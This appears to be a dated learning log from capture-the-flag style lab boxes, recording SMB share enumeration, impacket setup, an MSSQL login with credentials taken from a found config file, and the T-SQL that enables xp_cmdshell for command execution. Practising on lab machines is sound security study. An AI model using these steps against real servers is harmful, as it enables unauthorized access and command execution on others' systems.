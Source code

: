 Also, we can connect to a given share by:
```
smbclient //10.129.245.78/backups
```

And using basic commands as cd, ls and get, to navigate and download the interesting files. 

We also have a SQL service on the box, and we want to create an Authenticated connection to it, we can use:
```
mssqlclient.py
```


### 18.01.2024
To use the mssqlclient.py script we need to install some python packages, but due to dependencies with apt and pip packages, we should use a venv and install pip packages inside the venv. 

```
python3 -m venv .venv
source .venv/bin/activate
python3 -m pip install -r requirements.txt

deactivate
```

Then we could use mssqlclient.py from the venv. We have some credentials from the config file we found on the SMB. We use them to connect:  

```
python3 mssqlclient.py ARCHTYPE/sql_svc:M3g4c0rp123@10.129.112.34 -windows-auth
```


### 19.01.2024

.venv laying inside the repos/impacket folder. Cannot access it without being in this folder. 

We would like to spawn a windows command shell from within the sql server. The extended stored procedure we need is: xp_cmdshell. 

Spawning this we use the commands:
```
Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```


### 20-21.01.2024

Hacking the ignition box. Wanting to check the http status code when we try connecting to the site:

```
curl -I -v http://10.129.76.89
```
